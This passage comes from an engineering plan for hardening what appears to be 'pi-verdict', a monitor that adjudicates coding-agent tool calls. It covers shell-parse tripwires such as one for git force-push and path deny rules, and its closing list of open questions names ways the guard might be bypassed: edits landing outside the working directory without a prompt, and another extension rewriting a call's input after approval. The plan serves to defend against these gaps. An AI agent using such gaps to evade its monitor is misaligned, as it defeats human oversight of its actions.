   below omp's 30 s handler budget, and document the root-session interaction in `docs/configuration.md`.
8. **F4, monotone floor (M, coordinate with the probe-apparatus plan).** Build `ShellView` with the `sound` flag,
   reinstate a raw-text tripwire for `git-push-force`, and let `gitPushForce` only clear a tripwire hit when
   `sound === true`. Reuse `ShellView` in F2's check, `bashPathTokens` callers, and `bashDirectoryTargets`. Write an
   ADR stating the monotonicity principle: a floor change may never turn a raw-text hit into a non-hit on an unsound
   parse.
9. **F10, path resolution service (M, after 3 and 8).** Introduce `resolveTarget` and migrate callers one layer at a
   time, keeping `denyPaths` on its ADR-0002 tier through an explicit parameter.
10. **F11, physical split (L, after 3, 8 and 9).** Move to `extensions/pi-verdict/index.ts` plus modules, verify with the
    omp smoke test in `AGENTS.md`, and update `files`, `tsconfig.json`, `biome.json` and the provenance manifest.
11. **F12 and F13 (S, any time).** Pin actions and Bun, fix or remove `publish.yml`, and correct `AGENTS.md`, the
    ADR-0002 amendment and `CONTEXT.md`.

## Unverified

- Whether omp, under the consumer's approval settings, executes a multi-file hashline `edit` that writes outside the cwd
  without its own prompt (F1). Verify with the throwaway-agent-dir smoke test.
- Whether omp's plugin loader, like pi's, loads only `index.ts` from a subdirectory of `extensions/` (F11).
- Whether a hashline `MV DEST` destination can name a path outside the cwd, and how omp resolves it (F1).
- The jev and OpenRouter input-size limits that bound F6's larger action cap.
- The current maintenance state of JavaScript bash parsers (tree-sitter-bash through WebAssembly, `mvdan/sh` builds).
  No web access was available, so F4's recommendation rests on the soundness argument and the repository's own
  measurement, not on a library survey.
- Whether `ctx.signal` inside a `tool_call` handler is the host's handler-timeout signal. If it is not, a timed-out
  classification keeps running after the host has blocked the call, which wastes cost and may append a stale audit
  record (F9).
- Whether another extension loaded after pi-verdict rewrites `tool_call` input (omp merges handler `input` results,
  `src/extensibility/extensions/runner.ts:1851-1860`). If one does, the executed input differs from the adjudicated one.
  This repository cannot control that; it belongs in `docs/host-contract.md` as a stated assumption.
